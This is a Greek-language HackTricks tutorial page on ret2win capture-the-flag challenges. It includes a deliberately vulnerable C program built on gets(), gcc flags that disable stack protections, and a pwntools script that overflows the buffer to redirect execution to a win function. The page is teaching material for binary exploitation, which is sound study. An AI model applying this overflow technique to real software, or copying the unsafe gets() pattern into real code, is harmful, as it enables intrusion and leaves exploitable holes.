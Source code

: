 # Ret2win

<details>

<summary><strong>Μάθετε το χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Ειδικός Red Team του HackTricks στο AWS)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι υποστήριξης του HackTricks:

* Αν θέλετε να δείτε την **εταιρεία σας διαφημισμένη στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα τηλεγραφήματος**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια στο GitHub.

</details>

## Βασικές Πληροφορίες

Οι προκλήσεις **Ret2win** είναι μια δημοφιλής κατηγορία στους διαγωνισμούς **Capture The Flag (CTF)**, ιδιαίτερα σε εργασίες που αφορούν **διακινδύνευση δυαδικών αρχείων**. Ο στόχος είναι να εκμεταλλευτείτε μια ευπάθεια σε ένα δεδομένο δυαδικό αρχείο για να εκτελέσετε μια συγκεκριμένη, μη κληθείσα λειτουργία μέσα στο δυαδικό, συνήθως με ονόματα όπως `win`, `flag`, κλπ. Αυτή η λειτουργία, όταν εκτελεστεί, συνήθως εκτυπώνει ένα σημαία ή ένα μήνυμα επιτυχίας. Η πρόκληση συνήθως περιλαμβάνει τον αντικαταστάτη της **διεύθυνσης επιστροφής** στη στοίβα για να ανακατευθύνει τη ροή εκτέλεσης στην επιθυμητή λειτουργία. Εδώ υπάρχει μια πιο λεπτομερής εξήγηση με παραδείγματα:

### Παράδειγμα σε Γλώσσα C

Λάβετε υπόψη ένα απλό πρόγραμμα σε C με μια ευπάθεια και μια λειτουργία `win` που σκοπεύουμε να καλέσουμε:
```c
#include <stdio.h>
#include <string.h>

void win() {
printf("Congratulations! You've called the win function.\n");
}

void vulnerable_function() {
char buf[64];
gets(buf); // This function is dangerous because it does not check the size of the input, leading to buffer overflow.
}

int main() {
vulnerable_function();
return 0;
}
```
Για να μεταγλωτίσετε αυτό το πρόγραμμα χωρίς προστασίες στη στοίβα και με το **ASLR** απενεργοποιημένο, μπορείτε να χρησιμοποιήσετε την παρακάτω εντολή:
```sh
gcc -m32 -fno-stack-protector -z execstack -no-pie -o vulnerable vulnerable.c
```
* `-m32`: Μεταγλωττίστε το πρόγραμμα ως 32-μπιτο δυαδικό (αυτό είναι προαιρετικό αλλά συνηθισμένο σε προκλήσεις CTF).
* `-fno-stack-protector`: Απενεργοποιήστε τις προστασίες ενάντια σε υπερχείλιση στη στοίβα.
* `-z execstack`: Επιτρέψτε την εκτέλεση κώδικα στη στοίβα.
* `-no-pie`: Απενεργοποιήστε το Position Independent Executable για να διασφαλίσετε ότι η διεύθυνση της συνάρτησης `win` δεν αλλάζει.
* `-o vulnerable`: Ονομάστε το αρχείο εξόδου `vulnerable`.

### Εκμετάλλευση Python χρησιμοποιώντας το Pwntools

Για την εκμετάλλευση, θα χρησιμοποιήσουμε το **pwntools**, ένα ισχυρό πλαίσιο CTF για τη σύνταξη εκμεταλλεύσεων. Το σενάριο εκμετάλλευσης θα δημιουργήσει ένα φορτίο για να υπερχειλίσει το buffer και να αντικαταστήσει τη διεύθυνση επιστροφής με τη διεύθυνση της συνάρτησης `win`.
```python
from pwn import *

# Set up the process and context for the binary
binary_path = './vulnerable'
p = process(binary_path)
context.binary = binary_path

# Find the address of the win function
win_addr = p32(0x08048456)  # Replace 0x08048456 with the actual address of the win function in your binary

# Create the payload
# The buffer size is 64 bytes, and the saved EBP is 4 bytes. Hence, we need 68 bytes before we overwrite the return address.
payload = b'A' * 68 + win_addr

# Send the payload
p.sendline(payload)
p.interactive()
```
Για να βρείτε τη διεύθυνση της συνάρτησης `win`, μπορείτε να χρησιμοποιήσετε το **gdb**, το **objdump**, ή οποιοδήποτε άλλο εργαλείο που σας επιτρέπει να επιθεωρήσετε δυαδικά αρχεία. Για παράδειγμα, με το `objdump`, θα μπορούσατε να χρησιμοποιήσετε:
```sh
objdump -d vulnerable | grep win
```
Αυτή η εντολή θα σας δείξει την συναρμολόγηση της λειτουργίας `win`, συμπεριλαμβανομένης της διεύθυνσης εκκίνησής της.

Το σενάριο Python στέλνει έναν προσεκτικά σχεδιασμένο μήνυμα που, όταν επεξεργάζεται από την `vulnerable_function`, υπερχειλίζει το buffer και αντικαθιστά τη διεύθυνση επιστροφής στη στοίβα με τη διεύθυνση της `win`. Όταν η `vulnerable_function` επιστρέφει, αντί να επιστρέψει στο `main` ή να τερματίσει, μεταβαίνει στην `win`, και το μήνυμα εκτυπώνεται.

## Προστασίες

* **Το PIE** πρέπει να είναι απενεργοποιημένο για να είναι αξιόπιστη η διεύθυνση σε κάθε εκτέλεση, διαφορετικά η διεύθυνση όπου θα αποθηκευτεί η λειτουργία δεν θα είναι πάντα η ίδια και θα χρειαζόσασταν κάποια διαρροή για να καταλάβετε πού βρίσκεται η λειτουργία win. Σε ορισμένες περιπτώσεις, όταν η λειτουργία που προκαλεί την υπερχείλιση είναι `read` ή κάτι παρόμοιο, μπορείτε να κάνετε μια **Μερική Αντικατάσταση** 1 ή 2 bytes για να αλλάξετε τη διεύθυνση επιστροφής ώστε να είναι η λειτουργία win. Λόγω του τρόπου λειτουργίας του ASLR, οι τελευταίες τρεις δεκαεξαδικές ψηφίδες δεν είναι τυχαίες, οπότε υπάρχει μια **1/16 πιθανότητα** (1 ψηφίο) να λάβετε τη σωστή διεύθυνση επιστροφής.
* Τα **Καναρίνια Στοίβας** πρέπει επίσης να είναι απενεργοποιημένα, διαφορετικά η χειρισμένη διεύθυνση επιστροφής EIP δεν θα ακολουθηθεί ποτέ.
